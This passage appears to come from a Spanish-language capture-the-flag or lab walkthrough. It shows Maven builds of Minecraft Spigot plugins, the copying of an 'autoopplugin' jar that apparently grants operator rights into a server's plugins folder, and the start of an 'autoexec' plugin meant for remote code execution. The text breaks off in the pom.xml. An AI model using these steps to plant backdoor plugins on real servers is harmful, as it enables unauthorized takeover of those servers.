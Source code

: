 Si vemos `BUILD SUCCESS` es que todo ha salido bien, por lo que cuando haya terminado de compilarse veremos el archivo `.jar` compilado en la carpeta `target/`.

```shell
ls -la /minecraft-plugin/target/
```

Info:

```
total 28
drwxr-xr-x 6 root root 4096 Jun 17 19:29 .
drwxr-xr-x 4 root root 4096 Jun 17 19:29 ..
-rw-r--r-- 1 root root 3657 Jun 17 19:29 autoopplugin-1.0-SNAPSHOT.jar
drwxr-xr-x 3 root root 4096 Jun 17 19:29 classes
drwxr-xr-x 3 root root 4096 Jun 17 19:29 generated-sources
drwxr-xr-x 2 root root 4096 Jun 17 19:29 maven-archiver
drwxr-xr-x 3 root root 4096 Jun 17 19:29 maven-status
```

Tendremos que realizar lo siguiente.

```shell
cp /minecraft-plugin/target/autoopplugin-1.0-SNAPSHOT.jar /minecraft/plugins/
```

Una vez que lo hayamos movido a `plugins` ya estaria cargado, pero ahora vamos a crear el ultimo `plugin` el cual es el que puede hacer el `RCE`, por lo que eliminaremos el espacio de trabajo anterior para crearlo de nuevo.

```shell
rm -r /minecraft-plugin
mkdir /minecraft-plugin
mkdir -p /minecraft-plugin/src/main/java/me/vuln/autoexec
mkdir -p /minecraft-plugin/src/main/resources
cd /minecraft-plugin
```

Una vez echo esto crearemos el `pom.xml` super importante.

```shell
nano pom.xml

#Dentro del nano
<project xmlns="http://maven.apache.org/POM/4.0.0" 
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 
         http://maven.apache.org/xsd/maven-4.0.0.xsd">
  <modelVersion>4.0.0</modelVersion>

  <groupId>me.vuln</groupId>
  <artifactId>autoexecplugin</artifactId>
  <version>1.0-SNAPSHOT</version>
  <packaging>jar</packaging>

  <name>AutoExecPlugin</name>

  <repositories>
    <repository>
      <id>spigot-repo</id>
      <url>https://hub.spigotmc.org/nexus/content/repositories/snapshots/</url>
    </repository>
  </repositories>

  <dependencies>
    <dependency>
      <groupId>org.spigotmc</groupId>
      <artifactId>spigot-api</artifactId>
      <version>1.12.2-R0.1-SNAPSHOT</version>
```
